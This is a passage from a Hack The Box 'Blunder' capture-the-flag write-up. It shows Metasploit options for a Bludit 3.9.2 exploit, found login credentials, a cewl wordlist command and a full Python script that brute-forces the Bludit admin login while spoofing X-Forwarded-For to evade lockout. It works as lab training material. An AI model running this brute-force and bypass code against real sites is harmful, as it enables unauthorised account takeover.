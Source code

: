 ```bash
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```
We see that we need login credentials for this exploit. There are a couple of ways to get these credentials. The first, if you found fergus and RoaldDeschain you will find that they are the username and password, respectively. The other option is if you found the username fergus, and struggled to find the password. You can use the bruteforcing script and create a wordlist from the website using cewl.
```bash
kali@kali:~/hackthebox/Blunder$ cewl 10.10.10.191 > list.txt 
```
and edit the script to
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

# Generate 50 incorrect password
with open('list.txt') as f:
        content = f.readlines()
        word = {x.strip() for x in content}
wordlist = word
# Add the correct password to the end of the list
#wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.>
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
```